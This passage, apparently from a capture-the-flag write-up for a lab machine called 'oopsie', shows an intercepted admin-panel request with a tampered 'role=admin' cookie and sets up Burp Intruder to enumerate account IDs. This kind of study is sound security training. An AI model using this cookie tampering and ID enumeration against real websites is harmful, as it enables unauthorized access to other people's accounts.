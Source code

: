 Though it probably won't come up, note that they are not from certain parts of Europe, as they are using a numerical comma indicitive of a separator, not a decimal point (cars wouldn't be as low as $110).

Now onto the Clients page:

<table align="center">
	<thead>
		<tr>
			<td>Client ID</td>
			<td>Name</td>
			<td>Email</td>
		</tr>
	</thead>
	<tbody>
		<tr>
			<td><code>1</code></td>
			<td>Tafcz</td>
			<td><code>john@tafcz.co.uk</code></td>
		</tr>
	</tbody>
</table>

I am most interested in the Accounts tab, as I hope that the table shows more if you have different request cookies or query parameters.  This is what we intercept:
```
GET /cdn-cgi/login/admin.php?content=accounts&id=1 HTTP/1.1
Host: oopsie
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://oopsie/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: user=34322; role=admin
Connection: close
```

The request parameters are `content=accounts` and `id=1`.  We could perhaps try different `id`s.  I try `id=2` and get an empty page&mdash;but not an error!  This is good.  Perhaps a certain ID/parameter combination lets me see different accounts.  Let's look for the super admin!  To do this, we can use Burp's Intruder tab (<kbd>&#8984;</kbs> + <kbd>I</kbd>).  Going into the Positions sub-tab, delete the curly symbols around everything except the `id`, so it should look like this:
```
GET /cdn-cgi/login/admin.php?content=accounts&id=§§ HTTP/1.1
Host: oopsie
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://oopsie/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: user=34322; role=admin
Connection: close

```
